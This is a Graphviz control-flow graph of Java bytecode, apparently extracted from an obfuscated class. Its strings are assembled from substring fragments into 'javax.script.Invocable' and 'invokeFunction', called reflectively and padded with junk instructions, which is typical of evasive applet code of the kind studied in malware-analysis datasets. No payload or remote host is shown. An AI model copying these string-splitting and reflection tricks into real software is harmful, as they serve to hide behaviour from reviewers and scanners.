    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AwnvY\"";
    "push \"AwnvY\""->"push 2";
    "push 2"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r2";
    "store.r r2"->"push 2";
    "push 2"->"newarray";
    "store.r $r1145"
    "newarray"->"store.r $r1145";
    "load.r $r1145"
    "store.r $r1145"->"load.r $r1145";
    "load.r $r1145"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r1145";
    "load.r $r1145"->"push 1";
    "push class \"[Ljava/lang/Object;\""
    "push 1"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "store.r $r1146"
    "newarray"->"store.r $r1146";
    "load.r $r1146"
    "store.r $r1146"->"load.r $r1146";
    "load.r $r1146"->"push 0";
    "push 0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"ygD7WQjGE5\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"ygD7WQjGE5\"";
    "push \"ygD7WQjGE5\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0cYlwgJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0cYlwgJ\"";
    "push \"0cYlwgJ\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BBJaJNC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BBJaJNC\"";
    "push \"BBJaJNC\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6JMgKV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6JMgKV\"";
    "push \"6JMgKV\""->"push 3";
    "push 3"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r1146";
    "load.r $r1146"->"push 1";
    "push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r2";
    "load.r r2"->"load.r $r1145";
    "load.r $r1145"->"load.r $r1146";
    "load.r $r1146"->"staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r r2";
    "store.r r2"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push class \"Ljava/lang/System;\""
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r1145";
    "store.r $r1145"->"load.r $r1145";
    "load.r $r1145"->"push 0";
    "push 0"->"load.r r2";
    "load.r r2"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.swing.JList"
    "pop"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r1145";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r1145"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "virtualinvoke <ddvscsrddjbsceqh: java.awt.Component add(java.awt.Component)>"
    "pop"->"virtualinvoke <ddvscsrddjbsceqh: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <ddvscsrddjbsceqh: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"52jaSc\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"52jaSc\"";
    "push \"52jaSc\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dMvaKa\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dMvaKa\"";
    "push \"dMvaKa\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"j5V5x.18\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"j5V5x.18\"";
    "push \"j5V5x.18\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HAtascM5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HAtascM5\"";
    "push \"HAtascM5\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2MripGR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2MripGR\"";
    "push \"2MripGR\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WYt.PAPW\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WYt.PAPW\"";
    "push \"WYt.PAPW\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3rInkYG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3rInkYG\"";
    "push \"3rInkYG\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PsvorTSA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PsvorTSA\"";
    "push \"PsvorTSA\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"r7c1PcabSS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"r7c1PcabSS\"";
    "push \"r7c1PcabSS\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wWKYlehEv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wWKYlehEv\"";
    "push \"wWKYlehEv\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"bNinF3\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"bNinF3\"";
    "push \"bNinF3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"fWRvok08\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"fWRvok08\"";
    "push \"fWRvok08\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hvLeFug0jwT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hvLeFug0jwT\"";
    "push \"hvLeFug0jwT\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PNPnctte\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PNPnctte\"";
    "push \"PNPnctte\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"68ionNm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"68ionNm\"";
    "push \"68ionNm\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"push class \"[Ljava/lang/Object;\"";
    "push class \"[Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"VrNptPt\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"VrNptPt\"";
    "push \"VrNptPt\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zgkKgy7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zgkKgy7\"";
    "push \"zgkKgy7\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7sAZTgq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7sAZTgq\"";
    "push \"7sAZTgq\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ktEGva\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ktEGva\"";
    "push \"ktEGva\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 1";
    "push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r1";
    "load.r r1"->"load.r r2";
    "load.r r2"->"staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"newarray";
    "store.r r0"
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"newarray";
    "newarray"->"push 0";
    "push 0"->"push class \"Ljava/lang/System;\"";
    "push class \"Ljava/lang/System;\""->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"virtualinvoke <ddvscsrddjbsceqh: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <ddvscsrddjbsceqh: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "goto push 0"
    "pop"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "return"
    "pop"->"return";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"store.r r0";
}

